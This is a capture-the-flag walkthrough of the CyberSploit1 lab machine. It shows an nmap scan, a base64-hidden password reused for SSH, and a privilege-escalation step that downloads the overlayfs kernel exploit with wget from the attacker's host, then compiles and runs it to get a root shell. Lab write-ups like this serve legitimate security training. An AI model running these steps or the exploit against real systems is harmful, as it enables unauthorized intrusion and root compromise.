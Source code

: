 # PG Play - CyberSploit1

#### Ip: 192.168.194.92
#### Name: CyberSploit1
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag. I'll also use the `-sV` and `-sC` flags to enumerate versions and use basic scripts:

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ sudo nmap -p-  --min-rate 10000 192.168.194.92 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 15:01 CDT
Nmap scan report for 192.168.194.92
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

Heading to the site we find a GIF and several anchored links:

![site.png](../assets/cybersploit1_assets/site.png)

But in the page source we find an interesting comment:

![username.png](../assets/cybersploit1_assets/username.png)

Cool, looks like we've found a username, lets keep enumerating. 

Seeing if there is a robots.txt file, we find what appears to be base64:

![robots.png](../assets/cybersploit1_assets/robots.png)

Lets decode this in the terminal:

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

### Exploitation

Out of curiosity I tried this as a password in SSH with the discovered username, and it worked!

```text
┌──(ryan㉿kali)-[~/PG/CyberSploit1]
└─$ ssh itsskv@192.168.194.92                             
The authenticity of host '192.168.194.92 (192.168.194.92)' can't be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.92' (ECDSA) to the list of known hosts.
itsskv@192.168.194.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$ hostname
cybersploit-CTF
```

We can now grab the local.txt flag:

![user_flag.png](../assets/cybersploit1_assets/user_flag.png)

### Privilege Escalation

I'll go ahead and transfer LinPEAS over to the target to help find a privilege escalation vector:

![transfer.png](../assets/cybersploit1_assets/transfer.png)

Linpeas finds a few things of interest, but most interesting is this outdated version:

![peas.png](../assets/cybersploit1_assets/peas.png)

Googling exploits we find this is vulnerable to overlayfs https://www.exploit-db.com/exploits/37292

Lets download this back to our machine and we can transfer it over and compile it on the target.

```text
itsskv@cybersploit-CTF:/tmp$ wget http://192.168.45.158/overlayfs.c
--2023-09-28 01:47:49--  http://192.168.45.158/overlayfs.c
Connecting to 192.168.45.158:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4981 (4.9K) [text/x-csrc]
Saving to: `overlayfs.c'

100%[===================================================================================>] 4,981       --.-K/s   in 0.007s  

2023-09-28 01:47:49 (704 KB/s) - `overlayfs.c' saved [4981/4981]

itsskv@cybersploit-CTF:/tmp$ gcc overlayfs.c -o ofs
itsskv@cybersploit-CTF:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Nice, that worked! Lets grab the final flag:

![root_flag.png](../assets/cybersploit1_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------
